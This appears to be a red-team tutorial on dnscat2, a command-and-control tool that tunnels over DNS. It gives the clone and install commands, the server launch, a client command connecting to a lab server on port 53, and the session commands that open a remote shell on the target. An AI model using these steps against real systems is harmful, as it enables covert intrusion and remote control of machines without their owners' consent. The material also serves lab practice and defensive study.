



# Red Teaming Squad

## dnscat2: Command and Control with DNS

DNScat is such praised tool because it can create a command and control tunnel over the DNS protocol which lets an attacker work in stealth mode. You can access any data along with uploading and downloading files and to get a shell. For this tool to work over 53 port, you don’t need to have authoritative access to DNS server, you can just simply establish your connection over port 53 and it will be faster and it will still be sensed as usual traffic. But it makes its presence well known in the packet log.

DNScat is made of two components i.e. a server and a client. To know the working of dnscat, it is important to understand both of these components.

The client is intended to be kept running on a target machine. It’s written in C and has the least amount of the prerequisites. When you run the client, you regularly indicate a domain name. All packets will be sent to the local DNS server, which is then directed to the legitimate DNS server for that domain (which you, apparently, have control of).

The server is intended to be kept running on a definitive DNS server. It’s developed in ruby and relies upon a few distinct gems. When you run it, much like the client, you indicate from which domain(s) it listens to over 53. When it gets traffic for one of those domains, it endeavours to set up a legitimate association. It gets other traffic it will automatically disregard it but, however, it can also advance it upstream.

### Installation

Run the following git command to download dnscat2 :

`git clone https://github.com/iagox86/dnscat2.git`

<kbd></kbd>

Now install bundler as it is a major dependency for dnscat2. To install bundler go into the server of dnscat2 and type :

```
gem install bundler
bundle install
```
<kbd></kbd>

Once everything is done, run the following command to start server:

`ruby dnscat2.rb`

<kbd></kbd>

Similarly, download dnscat2 in the client machine too.  And go the dnscat2 directory and use make command to compile it with the server, as shown in the image below :

<kbd></kbd>

<kbd></kbd>

To establish a connection between client and server, use the following command :

`./dnscat --dns=server=192.168.0.106,port=53`

<kbd></kbd>

Once the connection is established, you can see on the server-side that you will have a session as shown in the image below. You can use the command ‘sessions’ to check for a session that is created.

<kbd></kbd>

To interact with the said session type the following command :

`session -i 1`

As you can access the session now, use the word ‘ping’ to ping the target and if it replies ‘Pong!’ then you ping is successful.

<kbd></kbd>

Following will be the response on the client-side of the ping command.

<kbd></kbd>

Further, with the help command you can see all the options. If you want to go to the shell then just type ‘shell’ and it will open a new window with the session to interact with the shell of the target system.

<kbd></kbd>

To interact with the shell session that is opened in a new terminal, type following set of commands :

```
windows
session -i 4
```

<kbd></kbd>

<kbd></kbd>

